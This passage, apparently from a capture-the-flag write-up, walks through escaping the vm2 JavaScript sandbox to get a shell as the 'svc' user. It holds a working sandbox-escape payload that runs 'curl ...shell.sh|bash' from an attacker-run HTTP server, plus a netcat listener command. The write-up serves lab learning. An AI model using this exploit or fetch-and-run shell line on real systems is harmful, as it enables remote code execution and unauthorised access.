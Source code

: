 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427865530/dfe9521a-25c3-4201-b3a6-ee966e9cd9ce.png align="center")

Now let's set up a python server and get a shell

```python
python3 -m http.server 9000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427862663/e2136fc1-41f8-4fd5-b8ae-58a8256c26d7.png align="center")

Now modify the script with our payload

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("curl http://10.10.14.64:9000/shell.sh|bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427854250/47e0f139-f567-4dcd-9979-d316f74992b9.png align="center")

We got a hit on our server

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427852107/45a1237a-83e7-4a43-b93f-a705483dad47.png align="center")

Now let's check our netcat listener

```bash
rlwrap nc -nlvp 1337
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427846923/854485a1-fed7-4138-b81c-aad931401f45.png align="center")

So we are logged in as `svc` user

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1712427842667/8a559273-320f-42ed-8455-94abcf1ffe56.png align="center")
